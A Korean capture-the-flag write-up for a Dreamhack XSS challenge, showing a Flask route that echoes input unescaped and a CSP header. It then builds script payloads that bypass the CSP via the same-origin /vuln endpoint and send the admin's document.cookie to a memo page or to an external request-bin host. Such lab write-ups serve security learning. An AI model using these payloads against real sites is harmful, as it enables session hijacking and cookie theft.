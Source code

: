 ## 취약한 포인트

http://host3.dreamhack.games:9250/vuln?param=%3Cimg%20src=https://dreamhack.io/assets/img/logo.0a8aabe.svg%3E

스크립트를 넣을 수 있는 /vuln 포인트

```py
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param
```

param에 대한 검증 없이 그대로 올리기 때문

CSP를 헤더에 적용하여 XSS를 막으려 했지만 어림도 없음

```py
@app.after_request
def add_header(response):
    global nonce
    response.headers[
        "Content-Security-Policy"
    ] = f"default-src 'self'; img-src https://dreamhack.io; style-src 'self' 'unsafe-inline'; script-src 'self' 'nonce-{nonce}'"
    nonce = os.urandom(16).hex()
    return response
```

왜냐면 default-src 'self'이므로, 해당(자기 자신) 도메인을 활용하면 우회가 되기 때문

Flag를 얻기 위해서는 admin의 cookie 값이 필요하므로 이것을 메모에 쓰도록 하면 될 것
이를 기반으로 exploit 구조를 간단히 생각해보면

http://127.0.0.1:8000/vuln?param={
    <script src=http://host3.dreamhack.games:9250/vuln?param=location.href='http://host3.dreamhack.games:9250/memo?memo=' + document.cookie;></script>
}


<script src="/vuln?param=document.location='http://host3.dreamhack.games:9250/memo?memo='%2Bdocument.cookie;"></script>

<script src="/vuln?param=document.location='http://127.0.0.1:8000/memo?memo='%2Bdocument.cookie;"></script>

<script src="/vuln?param=document.location='https://whimbuc.request.dreamhack.games?memo='%252Bdocument.cookie;"></script>


// +를 url encoding 하기 위해 %2B => %252B로

근데 생각해보니 memo는 각 사용자마다 관리되므로 외부 주소로 요청 받는게 좋을듯

<script src="/vuln?param=document.location='http://host3.dreamhack.games:9250/memo?memo='+document.cookie;"></script>